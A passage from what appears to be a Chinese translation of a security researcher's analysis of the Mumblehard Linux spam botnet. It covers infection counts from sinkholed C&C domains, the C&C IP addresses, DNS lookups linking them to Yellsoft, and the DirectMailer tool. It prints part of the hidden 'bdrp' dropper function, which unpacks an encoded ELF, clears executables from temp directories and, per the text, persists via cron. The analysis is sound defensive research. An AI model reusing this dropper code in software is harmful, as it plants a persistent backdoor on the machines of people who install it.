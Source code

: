 目前还不知道将其添加到反垃圾邮件签名是否有效果，不过我们认为是有的。

0x02 被感染主机的统计
=====

其中恶意服务器支持的C＆C域名其中一部分已经失效，所以我们购买了其中的域名来监控受到感染的服务器，我们使用了恶意软件中用到的特殊的user-agent来进行监控。

下面是我们收集的2014年9月19日到2015年4月22日的数据，大概存在8,867个ip进行连接，其中大部分是用于网站托管的服务器。

![enter image description here](http://drops.javaweb.org/uploads/images/ba9d6ddcc119a93ee18d203eaea484ded7c5e455.jpg)

(此处省略部分关于统计的细节)

0x03 WHO IS YELLSOFT?
=====

样本中的C＆C服务器的ip范围位于 194.54.81.162 到194.54.81.164

```
194.54.81.162:53 Hardcoded DNS server in Mumblehard’s spammer
194.54.81.163:54321 Report from Mumblehard’s proxy is open
194.54.81.163:25 C&C server for Mumblehard’s spammer
194.54.81.164:25 C&C server for Mumblehard’s spammer

```

如果你检查下面的两个ip，你会发现他们都是194.54.81.165和194.54.81.166的名称服务器，其中yellsoft.net web服务器托管 在194.54.81.166，其中162到166的ip的ns和soa都是相同的，这可以表明，这5个ip都是托管在同一台服务器上。

```
$ dig +short -x 194.54.81 SOA | uniq -c 
1 ns1.rx-name.net. hostmaster.81.54.194.in-addr.arpa. 2015031209 28800 7200 604800 86400
$ for i in 2 3 4 5 6; do dig +short -x 194.54.81 SOA @194.54.81.16$i; done | uniq -c 
5 ns1.yellsoft.net. support.yellsoft.net. 2013051501 600 300 604800 600

```

那么Yellsoft是干嘛的，他们销售一种perl编写的批量邮件发送工具，叫DirectMailer。运行在UNIX系统上。

![enter image description here](http://drops.javaweb.org/uploads/images/582d6f93bf420865305efc5cfb44ba11cfe68622.jpg)

### 3.1 DirectMailer分析

* * *

其主页上告诉访客，他们不提供直接下载，下载地址被托管在narod.ru上，我们可以从上面得到副本。在2014年我们下载了一个叫 directmailer-retail.zip 的压缩包，之后ESET讲其识别为恶意软件后，该软件就不再被放置于softexp.narod.ru上。

zip包含一个dm.pl 文件，不过其为elf可执行文件，打包了各种perl脚本。在主程序启动之前，程序会调用一个bdrp的函数，该函数有一个uuencoded编码的blob，解码运行后会生成另一个ELF可执行文件，包含一个加壳后的perl脚本，它会被写入文件系统和cron 15分钟运行一次。很熟悉是不？

bdrp函数

```
sub bdrp {
  my $bdrp = <<'BDRPDATA';
  M?T5,1@$!`0D```````````(``P`!````3(`$""P``````````````#0`(``!
  M``````````"`!`@`@`0("1H``!X>```'`````!```(DE"9H$"+@-````,=M3
  ...
  M)S5I=6=\9&(Z-WQT>'-T?#,@/'YR<%-$`@=,1$A#1$P1"U$-7$I$1$!=#Q5+
  %%T491S$`
  BDRPDATA
  $bdrp = unpack( "u*", $bdrp );
    foreach my $bdrpp ( "/var/tmp", "/tmp" ) {
    # Delete all executable files in temporary directory
    # (delete existing Mumblehard installation)
    for (<$bdrpp/*>) { unlink $_ if ( -f $_ && ( -x $_ || -X $_ ) ); }
    # Create random file name
    my $bdrpn = [ "a" .. "z", "A" .. "Z" ];
    $bdrpn = join( "",
    @$bdrpn[ map { rand @$bdrpn } ( 1 .. ( 6 + int rand 5 ) ) ] );
```